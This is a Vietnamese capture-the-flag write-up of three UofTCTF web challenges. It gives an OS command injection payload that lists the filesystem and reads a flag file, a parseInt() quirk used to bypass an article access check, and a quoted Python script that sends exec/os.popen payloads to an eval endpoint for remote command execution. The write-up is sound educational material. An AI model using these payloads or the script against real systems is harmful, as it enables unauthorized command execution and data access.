


# **Voice Changer**
- Bài cho một đường link tới một trang web dùng để ghi âm giọng nói như sau:
<p align="center">
    
</p>

- Web có chức năng thay đổi độ cao âm thanh được ghi bằng cách điều chỉnh `Pitch` như trên hình. Thử ghi âm một đoạn bất kỳ và gửi, ta nhận được request sau:
<p align="center">
    
</p>

- Phản hồi trên trang web sau khi gửi dữ liệu. Có thể thấy dạng dữ liệu trả về rất giống việc thực hiện một command trên shell. Ngoài ra để ý, trong phản hồi có chứa giá trị của biến `pitch` được chèn vào trong command đó
<p align="center">
    
</p>

- Đến đây, khả năng cao web có thể khai thác được OS command injection nếu không có lớp bảo mật nào. Để thử khai thác, ta sử dụng payload sau để list nội dung trong thư mục gốc:
```
1.13"; ls /; "
```
- Việc thêm dấu `"` ở sau giá trị `1.13` là để đóng chuỗi ở trước nó trong command, hai dấu `;` ở trước vào sau command `ls` là command separator, cho phép thực hiện nhiều command với nhau, và dấu `"` ở cuối để đóng nốt phần còn lại của chuỗi trong câu lệnh ban đầu
- Sau khi gửi payload, ta nhận được kết quả trả về như sau và có thể xác nhận là web này có thể khai thác được OS command injection
<p align="center">
    
</p>

- Để ý, trong thư mục gốc chứa một file tên `secret.txt`. Đọc file đó bằng lệnh `cat` và ta nhận được flag:
<p align="center">
    
</p>

- Flag: `uoftctf{Y0UR Pitch IS 70O H!9H}`

# **The Varsity**
- Bài cho một đường link tới một trang web, giao diện đầu vào của nó như sau. Khi chọn vào mục `Voucher`, cần nhập voucher hợp lệ, nếu không thì không tiếp tục được:
<p align="center">
    
</p>

- Nếu không chọn `Voucher`, ta được chuyển hướng sang trang khác như sau. Tại đây ta được chọn các bài báo được đánh số từ 1 đến 10, và nút `Load Article` để tải nội dung của báo tương ứng
<p align="center">
    
</p>

- Riêng tại bài báo số 10, cần phải thực hiện subcribe (đăng ký) mới có thể đọc được
<p align="center">
    
</p>

- Để ý sau khi nhập `username`, tại trang được chuyển hướng có hiển thị tên được nhập. Ban đầu em có nghĩ tới XSS nhưng sau khi thử thì có vẻ chỗ này không khai thác được XSS:
<p align="center">
    
</p>

- Dưới đây là request khi truy cập vào bài báo số 10, tức stt hay `issue` của bài báo số 10 là 9
<p align="center">
    
</p>

- Bài cho thêm source code, nên ta tải về và đọc, trong đó có file `server.js` và có một hằng `article` như sau. Có thể thấy được bài báo số 10 chứa nội dung của flag:
<p align="center">
    
</p>

- Ta xem đến đoạn code bên dưới trong file về cách xử lý khi request gửi yêu cầu đọc các bài báo. Ta để ý dòng được gạch đỏ thứ nhất (dòng 109), biến `issue` được ***gán trực tiếp*** và được sử dụng luôn tại hai khối điều kiện sau đó (dòng 111 và 115), nhưng đến tận dòng được gạch đỏ thứ hai (dòng 121) thì mới thực hiện sử dụng `parseInt()`. Khối điều kiện sau đó (dòng 123) kiểm tra xem `issue` có phải là NaN không và có lớn hơn số lượng bài viết trong `article` hay không. Như bên trên, ta biết `issue` của bài số 10 là 9, và giá trị của `article.length - 1` cũng luôn là 9 (dựa vào hằng `article` bên trên), nên điều kiện bên vế phải là ***LUÔN SAI*** đối với bài viết số 10. Nhưng số 9 cũng không phải là NaN nên lẽ ra, nó phải chạy tiếp xuống bên dưới chứ?
<p align="center">
    
</p>

- Nhưng vấn đề nằm ở dòng được gạch đỏ thứ hai (dòng 121), khi kiểm tra `issue` thì nó có dấu `=`. Vậy nên, ta cần thay đổi giá trị của `issue` sao cho khi đi qua `parseInt()` thì nó vẫn là 9, nhưng lại làm cho khối điều kiện dòng 115 sai. Như vậy, giá trị của `issue` khi truyền vào nó sẽ có dạng `9 <một chuỗi nào đó>`, kiểu `9 xuvna`, vì chuỗi này khi đi qua `parseInt()` thì nó vẫn trả lại giá trị số 9, một sự kì lạ của hàm. Sau khi gửi payload, ta nhận được flag:
<p align="center">
    
</p>

- Flag: `uoftctf{w31rd_b3h4v10r_0f_parseInt()!}`

# **No Code**
- Khi vào bài, đập ngay màn hình thông báo như sau:
<p align="center">
    
</p>

- Đề cho source code như sau:
<p align="center">
    
</p>

- Có thể tóm tắt code như này:
    * Ta có thể gửi POST request đến đường dẫn `/execute`. Request này gồm một parameter là `code`
    * Giá trị của `code` được so sánh với một đoạn regex (đoạn này em không hiểu lắm, nhưng chỉ biết là ký tự đầu mà là ký tự `\n` thì không bị nhảy vào trong khối điều kiện)
    * Nếu không thỏa mãn regex thì thực hiện `eval(code)` và trả lại JSON là kết quả trả về
- Em vẫn chưa hiểu payload trong WU của người ta lắm
```py
import requests,json

cmd=input('Commmand: ')
payload=f"\nstr(exec(\"import os; result=os.popen(\'{cmd}\').read();\"))+result"
r=requests.post(
    "https://uoftctf-no-code.chals.io/execute",
    data={"code": payload}
)
# print(r.content.decode())
data=json.loads(r.content.decode())
print(data['output'][4:])
```